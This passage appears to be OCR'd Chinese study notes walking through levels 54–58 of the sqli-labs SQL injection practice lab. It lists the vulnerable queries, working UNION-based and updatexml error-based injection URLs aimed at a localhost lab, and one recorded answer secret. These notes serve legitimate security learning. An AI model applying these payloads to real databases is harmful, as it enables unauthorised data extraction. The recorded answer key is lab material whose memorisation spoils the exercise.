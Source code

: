 //id,sessid,secret_A0S3,tryy 



查询指定列的内容 

http://127.0.0.1/sqli-labs/Less-54/index.php?id=-1' union select 1,2, secret_A0S3 from challenges.HLRAMAT8OB — - 

//KhNq8YYPQbwOVY9BCMVgMrhu 

提交value 就是答案 



##第55关 

要求14次 

$sql="SELECT * FROM security.users WHERE id=($id) LIMIT 0,1”; 



http://127.0.0.1/sqli-labs/Less-55/index.php?id=0) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() -- - 



http://127.0.0.1/sqli-labs/Less-55/index.php?id=0) union select 1,2,group_concat(column_name) from information_schema.columns where table_name='M93G5TMAL3' -- - 



http://127.0.0.1/sqli-labs/Less-55/index.php?id=0) union select 1,2,secret_QPDL from challenges.M93G5TMAL3 -- - 





##第56关 

闭合单撇和括号 

$sql="SELECT * FROM security.users WHERE id=('$id') LIMIT 0,1”; 

http://127.0.0.1/sqli-labs/Less-56/index.php?id=0') union select 1,2,database() -- - 



##第57关 

闭合双引号 



http://127.0.0.1/sqli-labs/Less-57/index.php?id=0" union select 1,2,database() -- - 



##第58关 

比54关，回显做了白名单处理 

$sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1”; 

Payload: 

http://127.0.0.1/sqli-labs/Less-58/index.php?id=0%27 and(updatexml(1,concat(0x7e,(select database())),0)) -- - 

